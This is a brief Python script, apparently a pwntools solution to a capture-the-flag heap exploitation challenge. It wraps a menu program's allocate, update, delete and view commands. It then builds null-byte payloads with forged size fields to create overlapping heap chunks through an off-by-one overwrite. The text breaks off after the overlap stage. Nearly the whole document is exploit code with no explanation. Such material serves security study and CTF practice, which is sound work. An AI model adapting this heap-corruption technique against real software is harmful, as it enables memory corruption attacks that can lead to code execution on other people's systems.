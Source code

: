 ```python
def add(size):
	cn.recvuntil('Command')
	cn.sendline('1')
	cn.recvuntil('Size')
	cn.sendline(str(size))
	cn.recvuntil('Allocated')

def update(idx,size,con):
	cn.recvuntil('Command')
	cn.sendline('2')
	cn.recvuntil('Index')
	cn.sendline(str(idx))
	cn.recvuntil('Size')
	cn.sendline(str(size))
	cn.recvuntil('Content')
	cn.send(con)

def delete(idx):
	cn.recvuntil('Command')
	cn.sendline('3')
	cn.recvuntil('Index')
	cn.sendline(str(idx))

def view(idx):
	cn.recvuntil('Command')
	cn.sendline('4')
	cn.recvuntil('Index')
	cn.sendline(str(idx))

mmap_addr = 0x13370800


####### perpare
add(0x18)#0
add(0x508)#1
add(0x18)#2

add(0x18)#3
add(0x508)#4
add(0x18)#5

add(0x18)#6


####### overlap

pay = '\x00'*0x4f0+p64(0x500)
update(1,len(pay),pay)
delete(1)
pay = '\x00'*(0x18-0xc)
update(0,len(pay),pay)
add(0xd0-8)#1
#0xf0
add(0x430-8)#7 overlap1 in (big)
delete(1)
delete(2)
#0x20
add(0x530-8)#1 overlap1 out


pay = '\x00'*0x4f0+p64(0x500)
update(4,len(pay),pay)
delete(4)
```